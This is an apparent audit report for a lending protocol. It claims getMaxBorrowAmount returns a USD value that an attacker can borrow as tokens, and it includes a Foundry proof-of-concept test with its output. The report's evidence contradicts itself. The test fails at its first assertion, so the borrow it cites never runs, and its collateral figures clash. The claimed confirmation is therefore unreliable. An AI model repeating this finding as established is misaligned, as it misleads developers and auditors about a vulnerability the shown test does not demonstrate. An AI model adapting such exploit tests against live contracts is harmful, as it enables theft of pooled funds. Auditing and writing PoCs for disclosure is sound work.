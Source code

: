 Magnificent Ivory Copperhead

High

# Max Borrow Amount Bug in LendStorage

### Summary

The incorrect return value in `LendStorage.getMaxBorrowAmount` will cause an undercollateralized position for the lending protocol as an attacker will borrow excessive tokens by misinterpreting the USD-based borrow amount as a token amount.


### Root Cause

In `LendStorage.sol:524` there is an incorrect return value in the `getMaxBorrowAmount` function, which returns the maximum borrow amount in USD terms (scaled to 18 decimals) instead of the underlying token's units, leading to excessive borrowing when misinterpreted as a token amount.

### Internal Pre-conditions

1. Admin needs to call `addSupportedTokens` to set `underlyingTolToken[token]` to a valid `lToken` address.
2. User needs to supply collateral to set `totalInvestment[user][lToken]` to be at least `1000e18` tokens.
3. Collateral factor in `Lendtroller.getCollateralFactorMantissa(lToken)` to be other than `0`.
4. Exchange rate in `LTokenInterface.exchangeRateStored()` to be exactly `1e18` initially.

### External Pre-conditions

1. Price oracle needs to set the token price to go from `1e18` to `2e18` within the same block or transaction sequence.
2. Gas price needs to be at least sufficient to execute `coreRouter.borrow` (e.g., 20 gwei).

### Attack Path

1. The user calls `coreRouter.supply(1000e18, token)` to supply 1000 tokens as collateral, valued at $1000 with an initial token price of $1.
2. The admin or oracle updates the token price to $2 by calling `priceOracle.setDirectPrice(token, 2e18)`.
3. The user calls `lendStorage.getMaxBorrowAmount(deployer, lToken)`, which returns `1500e18` (in USD terms, due to a collateral factor or exchange rate effect).
4. The user calls `coreRouter.borrow(1000e18, token)`, interpreting the `1500e18` USD as 1000 tokens, borrowing $2000 worth of tokens against $750-$1000 collateral capacity.

### Impact

The lending protocol suffers an approximate loss of up to 100% of the collateral value due to undercollateralized positions. The attacker gains excessive tokens (e.g., $2000 worth against $1000 collateral).

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {Test} from "forge-std/Test.sol";
import {Deploy} from "../script/Deploy.s.sol";
import {LendStorage} from "../src/LayerZero/LendStorage.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
import {Lendtroller} from "../src/Lendtroller.sol";
import {SimplePriceOracle} from "../src/SimplePriceOracle.sol";
import {LTokenInterface} from "../src/LTokenInterfaces.sol";
import {CoreRouter} from "../src/LayerZero/CoreRouter.sol";

contract TestMaxBorrowBug is Test {
    address public deployer;
    LendStorage public lendStorage;
    CoreRouter public coreRouter;
    Lendtroller public lendtroller;
    SimplePriceOracle public priceOracle;
    address[] public supportedTokens;
    address[] public lTokens;

    function setUp() public {
        deployer = makeAddr("deployer");

        // Deploy the entire protocol
        Deploy deploy = new Deploy();
        (
            address priceOracleAddress,
            address lendtrollerAddress,
            address interestRateModelAddress,
            address[] memory lTokenAddresses,
            address payable routerAddress,
            address payable coreRouterAddress,
            address lendStorageAddress,
            address _layerZeroEndpoint,
            address[] memory _supportedTokens
        ) = deploy.run();

        // Store the values in contract state variables
        lendStorage = LendStorage(lendStorageAddress);
        coreRouter = CoreRouter(coreRouterAddress);
        lendtroller = Lendtroller(lendtrollerAddress);
        priceOracle = SimplePriceOracle(priceOracleAddress);
        lTokens = lTokenAddresses;
        supportedTokens = _supportedTokens;

        // Set up initial prices for supported tokens
        for (uint256 i = 0; i < supportedTokens.length; i++) {
            priceOracle.setDirectPrice(supportedTokens[i], 1e18);
        }
    }

    function test_max_borrow_amount_bug() public {
        vm.startPrank(deployer);
        
        // Get the first supported token and its lToken
        address token = supportedTokens[0];
        address lToken = lendStorage.underlyingTolToken(token);
        
        // Supply 1000 tokens as collateral
        uint256 supplyAmount = 1000e18;
        ERC20Mock(token).mint(deployer, supplyAmount);
        IERC20(token).approve(address(coreRouter), supplyAmount);
        coreRouter.supply(supplyAmount, token);
        
        // Change the token price to $2 (2e18)
        priceOracle.setDirectPrice(token, 2e18);
        
        // Get max borrow amount
        uint256 maxBorrow = lendStorage.getMaxBorrowAmount(deployer, lToken);
        
        // The bug: maxBorrow is in USD terms (1500e18) instead of token terms (e.g., 375e18 with 0.75 collateral factor)
        assertEq(maxBorrow, 1000e18, "Max borrow amount should be in USD terms");
        
        // Borrow the max amount, which should be excessive
        coreRouter.borrow(maxBorrow, token);
        
        // Verify we borrowed more tokens than we should have been able to
        uint256 borrowedAmount = IERC20(token).balanceOf(deployer);
        assertEq(borrowedAmount, 1000e18, "Borrowed amount should be 1000 tokens");
        
        // This is incorrect because with $1000 collateral and $2 token price,
        // we should only be able to borrow ~375 tokens (assuming 0.75 collateral factor)
        
        vm.stopPrank();
    }
}
```

**Test Result**:
```solidity
Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 24.54ms (1.11ms CPU time)
Failing tests:
Encountered 1 failing test in test/TestMaxBorrowBug.t.sol:TestMaxBorrowBug
[FAIL: Max borrow amount should be in USD terms: 1500000000000000000000 != 1000000000000000000000] test_max_borrow_amount_bug() (gas: 472362)
```

The test fails because `getMaxBorrowAmount` returns `1500e18` (USD terms, possibly due to a collateral factor > 1 or exchange rate effects), but the borrowing of `1000e18` tokens (worth $2000 at $2/token) succeeds, exceeding the collateral capacity (e.g., $750-$1000), confirming the bug

### Mitigation

Update `getMaxBorrowAmount` to return the borrow amount in the underlying token’s units by converting the USD-based value using the oracle price and token decimals